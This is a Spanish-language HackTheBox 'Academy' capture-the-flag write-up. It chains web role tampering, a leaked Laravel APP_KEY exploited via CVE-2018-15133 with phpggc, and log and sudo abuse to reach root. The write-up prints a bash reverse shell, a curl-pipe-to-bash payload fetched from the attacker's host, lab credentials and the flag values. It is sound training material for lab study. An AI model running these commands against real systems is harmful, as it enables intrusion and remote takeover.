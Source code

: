 ```yaml
---
title: HackTheBox - Academy
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, Laravel, 'Information Leakage']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Academy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Academy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Laravel Exploitation, Information Leakage**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Academy`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Academy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p21,80,33060 -sCV <IP> -oN versiones`**

    ```
    <SNIP>
    http-title: Did not follow redirect to http://academy.htb/
    <SNIP>
    ```

    > Tenemos un dominio, el cual debemos guardar en el archivo **`/etc/hosts`** para indicar que la **IP de la Máquina Academy** resuelva a **`http://academy.htb/`**.
    {: .prompt-info }


c. Si vistamos el servicio web, podemos **`Registrarnos`** o **`Loguearnos`**, por lo que enumeraremos por más archivos **`.php`** que puedan existir

```bash
wfuzz -c -t 10 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://academy.htb/FUZZ.php

<SNIP>
000000256:   200        141 L    227 W      2633 Ch     "admin"
```

d. Si capturamos la petición de **registrar** con Burp Suite veremos que se envía un **`roleid`** con valor de **0** por default

* **`uid=test&password=test&confirm=test&roleid=0`**

    * Lo que haremos es cambiarlo **`1,2,3,etc`** para ver si la cuenta registrada cambia de privilegios o es válida en **`/admin.php`** 

    * El **`roleid`** válido es `1`

e. Nos autenticamos en **/admin.php** y veremos un subdominio, también lo agregamos al **`/etc/hosts`**

![](/assets/images/HTB/Easy/Academy/02-subdomain.png)


f. Si visitamos el nuevo subdominio, veremos un error de Laravel, del cual podemos extraer la **`APP_KEY`** (Variable de configuración utilizada para mantener segura la información sensible, como las sesiones, las cookies y otras características de seguridad)

1. [CVE-2018-15133](https://github.com/kozmic/laravel-poc-CVE-2018-15133) y [phpgcc](https://github.com/ambionics/phpggc)

2. El escenario será el siguiente: 
    * Crearemos con **phpgcc** un comando encodeado que realice una petición a un archivo **index.html** que estará hosteado en nuestra **Máquina Atacante** 

        ```bash
        #!/bin/bash
        bash -i >& /dev/tcp/<tun0 IP>/443 0>&1
        ```

        * Nos pondremos en escucha para servir el archivo: **`python3 -m http.server 8000`**

    * Estaremos a la espera de una reverse shell: **`nc -lvnp 443`**


    > El comando encodeado será **`curl -s -X GET http://<tun0 ip>:8000/index.html | bash`**. Con este comando obtenemos el fichero **index.html** y lo interpretaremos con bash
    {: .prompt-info }

    ```bash
    ./phpggc Laravel/RCE1 system 'curl -s -X GET http://10.10.14.115:8000/index.html | bash' -b
    ```

    * Ejecutamos el exploit

        ```bash
        ./cve-2018-15133.php <APP_KEY> <OUTPUT phpgcc>
        ```

    * El **output** del exploit lo tramitamos como cabecera en un petición por **post** a **`http://dev-staging-01.academy.htb/`**

        ```bash
        curl -s -X POST http://dev-staging-01.academy.htb/ -H "X-XSRF-TOKEN: eyJpdiI6ImFWSWpQRDZ<SNIP>="
        ```

    * Conseguiremos la reverse shell 

        ```bash
        www-data@academy:/var/www/html/htb-academy-dev-01/public$
        ```

### Escalada de Privilegios 💹

a. Listamos los archivos **.env** (Aquí se almacenan credenciales de bases de datos u otra aplicación).

```bash
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
    
b. Existen varios usuarios en el sistema, así que intentaremos autenticarnos con la credencial **`mySup3rP4s5w0rd!!`**

```bash
su cry0l1t3
Password: mySup3rP4s5w0rd!!
script /dev/null -c bash
Script started, file is /dev/null
cry0l1t3@academy:/var/www/html$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

> Grupo **`adm`:** Podemos ver archivos de **`logs`**.
{: .prompt-info }


c. Podemos listar el contenido de **`/var/log/audit`** (Aquí se almacenan logs de inicio de sesión de usuarios, cambios de permisos, etc)

* En este directorio filtraremos por líneas que contengan los nombres de los usuarios del sistema

    ```bash
    cry0l1t3@academy:/var/log/audit$ grep -r -i "mrb3n" *
    ```

d. Analizaremos en todos los archivos **`audit.log`** algo relacionado con:

* **`type=TTY`**: Relacionado con una terminal de tipo "TTY".

* **`tty pid=<N> uid=<N> auid=<N> ses=<N>`**: Estos campos registran información sobre el proceso (pid), el ID de usuario (uid), el ID de usuario auditado (auid) y la sesión (ses) asociada con el evento. 

* **`comm="[Comando]"`**: Este campo muestra el nombre del comando o programa que se estaba ejecutando cuando se registró el evento.

* **`data=[Data Hexadecimal]`**: Esta es la parte más interesante del registro y es específica del evento en sí.

    📇 En ocasiones tenemos que ejecutar dos veces seguidas este comando.

    ```bash
    grep -r "mrb3n" -C 10 | grep -i "tty" | grep "data" | awk '{print $11}' | tr -d "data=" | xxd -ps -r

    <SNIP>
    mrb3n_Ac@d3my!
    <SNIP>
    ```

e. Pasamos al usuario **`mrb3n`** con la credencial reciente y listamos nuestros privilegios a nivel de **sudoers**

```bash
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

f. Vamos a [GTFObins](https://gtfobins.github.io/) y buscamos una forma de escalar privilegios con este permiso asignado.

* Por último, ya como **`root`** leemos las **`flags`**

    ```bash
    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name user.txt 2>/dev/null  | xargs cat
    b4fb4ebd4e45397059048b75d2572658

    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name root.txt 2>/dev/null  | xargs cat
    b031b75fe05537f90812f247d5de1177
    ```

> Después de todo este proceso, hemos finalmente vulnerado la `Máquina Academy` 🎉
{: .prompt-tip }